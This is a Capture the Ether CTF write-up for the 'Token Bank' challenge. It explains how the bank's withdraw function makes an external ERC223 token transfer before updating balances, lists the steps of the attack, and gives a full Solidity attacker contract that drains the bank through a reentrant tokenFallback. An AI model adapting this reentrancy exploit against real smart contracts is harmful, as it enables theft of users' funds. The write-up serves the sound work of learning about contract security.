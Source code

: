 # Token Bank Capture the ether

## Goals

=> The bank deploys a token called “Simple ERC223 Token” and assigns half the tokens to me and half to you. You win this challenge if you can empty the bank.

### Hints

- None

### Solution

- The weakness is in the Banks `withdraw(uint256 amount)` function since this does an external contract call `require(token.transfer(msg.sender, amount))` beofre updating the balance of the message sender, this external call does another external call if the sent to is a contract to check if he can receive those tokens and implemented the `tokenFallback()` function which we can implement however we want to. Follwing Steps were done:
- Withdraw our 500k tokens from the bank calling as the player `transfer(hackContract, 500000 ether)`
- Send them from the tokenContract to our hackContract `transfer(hackContract, 500000 ether)`
- Deposit them in the bank calling the hackContracts so the Hack contracts `depositTokensAtBank(500000 ether)` => balance is now 500k.
- Call the `attack()` function from the hackContract which will result in having a `tokenContract.balanceOf(hackContract)` of 1 million tokens which you could now withdraw to the player

### Attacker Contract

```solidity
contract Hack {
    TokenBankChallenge tokenBankContract;
    SimpleERC223Token token;
    address OWNER;

    constructor(address _tokenBankContract, address _token) public {
        OWNER = msg.sender;
        tokenBankContract = TokenBankChallenge(_tokenBankContract);
        token = SimpleERC223Token(_token);
    }

    function depositTokensAtBank() public {
        // deposit tokens to be able to withdraw and trigger the fallback / reentrancy
        token.transfer(tokenBankContract, 500000 ether);
    }

    function withdrawStolenFunds() external {
        token.transfer(OWNER, token.balanceOf(address(this)));
    }

    function attack() public {
        // triggers fallback
        tokenBankContract.withdraw(500000 ether);
    }

    function tokenFallback(address from, uint256 value, bytes data) external{
        // !! Not called when the OWNER/Player transfers tokens to our Hack contract !!
        // fallback takes the other half of the funds
        if(token.balanceOf(tokenBankContract) >= 500000 ether && from != OWNER){
        tokenBankContract.withdraw(500000 ether);
        }
    }

}
```
